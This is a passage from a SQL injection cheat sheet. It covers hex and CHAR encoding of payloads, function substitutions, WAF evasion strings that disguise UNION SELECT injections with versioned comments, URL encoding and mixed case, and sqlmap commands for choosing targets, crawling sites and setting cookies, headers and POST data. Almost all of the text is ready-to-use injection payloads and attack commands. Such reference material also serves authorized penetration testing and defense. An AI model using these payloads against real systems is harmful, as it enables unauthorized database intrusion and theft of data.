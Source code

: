 ### 3. Hex/CHAR Encoding
```sql
' UNION SELECT CHAR(65,66,67),2,3 -- -
SELECT 0x3c3f706870 -- Hex encoding for '<?php'
```

### 4. Function Alternations

- Use equivalent functions:
  - `SUBSTRING` → `MID`, `SUBSTR`
  - `CONCAT` → `||` (Oracle, PostgreSQL) or `+` (MSSQL)

### 5. WAF Evasion Strings

```sql
' /*!50000UnIoN*/ /*!50000SeLeCt*/ 1,2,3 -- -
' %55%4e%49%4f%4e %53%45%4c%45%43%54 1,2,3 -- -
' UniON/**/sEleCT 1,2,3 -- -
```

## Advanced SQLMap Usage

### Basic Command Structure
```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs
```

### Target Specification
```bash
# Single URL
sqlmap -u "http://target.com/page.php?id=1"

# From Burp request file
sqlmap -r request.txt

# Multiple targets
sqlmap -m targets.txt

# Crawl website
sqlmap -u "http://target.com" --crawl=3
```

### Request Customization
```bash
# Set cookies
sqlmap -u "http://target.com" --cookie="PHPSESSID=abc123"

# Set HTTP headers
sqlmap -u "http://target.com" --headers="User-Agent: Mozilla/5.0\nReferer: http://google.com"

# HTTP method
sqlmap -u "http://target.com" --data="username=test&password=test" --method=POST

# Custom parameters
sqlmap -u "http://target.com" --param-filter="id"
```
